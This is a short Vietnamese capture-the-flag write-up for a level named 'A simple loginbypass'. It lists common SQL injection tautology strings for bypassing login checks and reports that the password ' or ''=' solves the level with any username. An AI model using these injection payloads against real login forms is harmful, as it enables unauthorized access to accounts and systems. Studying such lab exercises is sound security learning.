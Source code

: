 ```sh
A simple loginbypass 

Target: Login 
Hint: Condition 
```

Level này cho biết sử dụng thủ thuật loginbypass để vượt qua, một số bypass hay được dùng trong sql:

```sh
' or ''='
1′ or ‘1’=’1 
‘ or ‘1’=’1;
‘ or ‘1’=’1”
” or ‘1’=’1;
```
Như ở level này là chỉ cần password:  `' or ''='` còn username có thể điền tất cả thứ gì cũng được

<img src="http://i.imgur.com/7SP6S4K.jpg">
